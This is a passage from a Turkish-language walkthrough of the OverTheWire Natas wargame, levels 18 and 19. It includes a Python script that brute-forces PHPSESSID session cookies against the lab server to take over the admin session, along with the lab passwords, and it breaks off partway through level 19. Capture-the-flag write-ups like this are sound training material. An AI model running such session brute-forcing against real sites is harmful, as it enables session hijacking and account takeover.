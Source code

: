 Değer 640 olarak tanımlanırken, "640 should be enough for everyone" şeklinde bir not düşülmüş. Burdan anlıyoruz ki admin dahil tüm kullanıcılar için session_id değeri 1 ile 640 arasında.

{% highlight python %}

import requests
from requests.auth import HTTPBasicAuth
auth=HTTPBasicAuth('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
for id in range(1,640):
               payload = {"username": "aa", "password": "aa"}
               id=str(id)
               cookie={'PHPSESSID':''+id+''}
               print cookie
               s=requests.post('http://natas18.natas.labs.overthewire.org/index.php',auth=auth,data=payload,cookies=cookie)
               if "You are an admin" in s.text:
                        print id
                        print s.text
                        break

{% endhighlight %}

>> natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level 19

This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

Diğer sayfadan farklı olarak session id'lerin sıralı olmadığını söylenmiş. Burp ile birkaç farklı username:password ile istekte bulunuyorum.

<figure>
<img src="/assets/img/natas/natas191.png">
</figure>
<figure>